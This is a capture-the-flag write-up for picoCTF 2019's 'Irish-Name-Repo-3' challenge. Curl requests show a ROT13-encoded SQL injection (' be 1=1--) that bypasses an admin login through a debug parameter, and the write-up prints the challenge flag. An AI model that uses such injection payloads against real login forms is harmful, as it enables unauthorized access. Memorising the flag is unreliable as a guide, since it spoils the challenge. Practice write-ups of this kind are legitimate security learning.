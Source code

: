 # Irish-Name-Repo-3

Point: 400

## Category

Web Exploitation

## Question

There is a secure website running at [https://2019shell1.picoctf.com/problem/12271/](https://2019shell1.picoctf.com/problem/12271/) \([link](https://2019shell1.picoctf.com/problem/12271/)\) or [http://2019shell1.picoctf.com:12271](http://2019shell1.picoctf.com:12271). Try to see if you can login as admin!

## Hint

Seems like the password is encrypted.

## Solution

I tried to use solution like in Irish-Name-Repo 1 and Irish-Name-Repo 2 but It wasn't working.

The website offered an admin login page

```bash
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Admin Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">

                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

Then I used the debug interface to test.

At first, I tried with `password=abc` with `debug=1`. Then I got some response with `password=nop`.

```bash
root@kali: curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=abc & debug=1"
<pre>password: abc
SQL query: SELECT * FROM admin where password = 'nop '
</pre><h1>Login failed.</h1>
```

As the hint, I knew password is encrypted. This might be a substitution cipher. So, I decided to try a simple injection. I changed parameter of password `password=' OR 1=1--`, then I got `SELECT * FROM admin where password = '' be 1=1 '`

```bash
root@kali: curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=' or 1=1--' & debug=1"
<pre>password: ' or 1=1
SQL query: SELECT * FROM admin where password = '' be 1=1 '
</pre>
```

Finally, I changed `password=' OR 1=1--` to `password=' be 1=1--`. BOOM!!! =&gt; I got the flag

```bash
root@kali:  curl "https://2019shell1.picoctf.com/problem/12271/login.php" --data "password=' be 1=1-- & debug=1"
<pre>password: ' be 1=1--
SQL query: SELECT * FROM admin where password = '' or 1=1-- '
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_ef7eac2f}</p>
```

## Flag

picoCTF{3v3n\_m0r3\_SQL\_ef7eac2f}

